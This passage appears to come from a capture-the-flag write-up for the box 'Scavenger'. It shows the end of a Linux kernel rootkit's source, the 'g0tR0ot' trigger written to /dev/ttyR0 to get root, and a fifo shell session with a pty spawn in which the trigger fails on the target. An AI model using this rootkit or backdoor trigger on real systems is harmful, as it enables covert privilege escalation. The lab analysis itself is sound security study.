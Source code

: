        // Register the device driver
       rootcharDevice = device_create(rootcharClass, NULL,
    				  MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
       if (IS_ERR(rootcharDevice))
         {
           class_destroy(rootcharClass);
           unregister_chrdev(majorNumber, DEVICE_NAME);
           return PTR_ERR(rootcharDevice);
         }
    
        return 0;    
    }
    
    static void __exit
    root_exit(void) 
    {
      // Destroy the device
      device_destroy(rootcharClass, MKDEV(majorNumber, 0));
      class_unregister(rootcharClass);                     
      class_destroy(rootcharClass);                        
      unregister_chrdev(majorNumber, DEVICE_NAME);     
    }
    
    
    module_init(root_init);
    module_exit(root_exit);
    

Some Googling of strings from this source lands me [on
0x00sec.org](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-
dirty/1485). Comparing the source to the code from this post confirms it’s the
same. To trigger the root kit in the post, I need to send the password,
“g0tR0ot” to `/dev/ttyR0`. In the example from the site, it works:

    
    
    $ id
    uid=1000(pico) gid=1000(pico) groups=1000(pico)
    $ echo "g0tR0ot" > /dev/ttyR0
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    

On Scavenger, it does not:

    
    
    root@kali# ./scavenger-stateful.py 
    [*] Session ID: 52451
    [*] Setting up fifo shell on target
    [+] Read Thread starting
    scavenger> python -c 'import pty;pty.spawn("/bin/sh")'
    $ 
    scavenger> toggle_prompt
    id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
    $ 
    echo "g0tR0ot" > /dev/ttyR0
    $ 
    id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
    